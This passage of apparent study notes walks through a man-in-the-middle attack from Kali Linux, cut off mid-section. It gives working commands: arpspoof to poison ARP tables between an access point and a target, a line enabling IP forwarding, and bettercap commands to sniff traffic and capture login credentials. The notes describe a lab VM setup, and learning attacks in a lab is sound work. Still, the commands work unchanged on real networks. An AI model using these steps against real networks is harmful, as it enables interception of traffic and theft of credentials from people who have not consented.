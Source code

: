 We need to do this twice but reversed so we can communicate with both the access point and the target computer
```sh
arpspoof -i eth0 -t <access-point-ip> <target-ip>
```

If your using a VM you can open the target computer and use `arp -a` before and after to see what effect it has

What will happen is that the router or access point's mac address will change to the kali mac address. If you could access the router and do the same thing it would show the target's mac address also as the kali mac address showing that the man in the middle attack is completed 

When doing this attack you need to enable port forwarding:
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```
- echo 1 - enable port forwarding
- If you don't have any errors then it's setup correctly

**Capture the Packets  While Exploiting a Man in the Middle Attack**

Tools: bettercap

Update kali
```sh
sudo apt update 
```

Install bettercap
```sh
sudp apt install bettercap
```

Activate bettercap
```sh
sudo bettercap -iface eth0 
```
- While in bettercap you can type help for a list of commands

Start sniffing the network
```sh
net.sniff on
```

Show connected devices
```sh
net.show
```

While it's sniffing the network, if you use the target VM's browser and login to a website bettercap will capture the login details and other information

Using just bettercap to perform the initial setup for the man in the middle attack without the need for ARP spoofing

Start bettercap
```sh
sudo bettercap -iface eth0
```
